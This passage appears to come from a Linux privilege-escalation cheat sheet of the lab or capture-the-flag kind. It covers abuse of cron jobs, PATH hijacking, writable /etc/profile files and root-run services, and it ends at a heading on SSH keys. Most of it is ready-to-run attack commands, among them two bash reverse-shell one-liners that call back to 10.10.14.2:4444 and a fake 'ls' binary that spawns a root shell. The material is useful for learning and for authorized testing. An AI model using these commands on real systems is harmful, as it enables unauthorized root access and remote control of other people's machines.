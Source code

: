**🔍 Find Scheduled Tasks**

```bash
cat /etc/crontab
ls -la /etc/cron.*
```

If a job runs with root privileges and you can modify the script:

```bash
echo "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" >> /path/to/script.sh
```

Next time the cron runs — you’re root.

***

#### 6. 🧰 PATH Hijacking

If root runs scripts referencing binaries without absolute paths:

```bash
echo "/bin/sh" > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
sudo /path/to/script.sh
```

Boom — your `/tmp/ls` executes as root.

***

#### 7. 🧩 Writable `/etc/profile` or `/etc/bashrc`

```bash
echo "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" >> /etc/profile
```

New sessions will spawn a reverse shell.

***

#### 8. 🧬 Exploiting Services Running as Root

Look for:

* Web apps writing to `/tmp`
* Systemd service misconfigurations
* Custom scripts in `/usr/local/bin`

Example:

```bash
cat /etc/systemd/system/vuln.service
```

If it runs a writable script → inject payload.

***

#### 9. 🧩 SSH Key Abuse
